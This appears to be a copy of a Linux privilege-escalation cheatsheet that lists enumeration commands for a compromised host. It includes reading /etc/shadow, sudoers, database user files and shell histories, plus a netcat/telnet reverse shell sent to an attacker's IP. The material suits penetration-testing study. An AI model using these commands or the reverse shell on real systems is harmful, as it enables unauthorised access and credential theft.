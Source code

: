 𝙏𝙝𝙚 𝙇𝙞𝙣𝙪𝙭 𝙋𝙧𝙞𝙫𝙞𝙡𝙚𝙜𝙚 𝙀𝙨𝙘𝙖𝙡𝙖𝙩𝙞𝙤𝙣 𝘾𝙝𝙚𝙖𝙩𝙨𝙝𝙚𝙚𝙩

Operating System
What's the distribution type? What version?

cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release


What's the kernel version? Is it 64-bit?

cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

What can be learnt from the environmental variables?

cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set

Is there a printer?

lpstat -a

Applications & Services

What services are running? Which service has which user privilege?

ps aux
ps -ef
top
cat /etc/services

Which service(s) are been running by root? Of these services, which are vulnerable

ps aux | grep root
ps -ef | grep root

What applications are installed? What version are they? Are they currently running?

ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/

Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?

cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

What jobs are scheduled?

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

Any plain text usernames and/or passwords?

grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

Communications & Networking
What NIC(s) does the system have? Is it connected to another network?

/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?

cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname

What other users & hosts are communicating with the system?

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

Whats cached? IP and/or MAC addresses

arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [attackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?

id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l

What sensitive files can be found?

cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/

Anything "interesting" in the home directorie(s)? If it's possible to access

ls -ahlR /root/
ls -ahlR /home/

Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords

cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg

What has the user being doing? Is there any password in plain text? What have they been edting?

cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history

What user information can be found?

cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
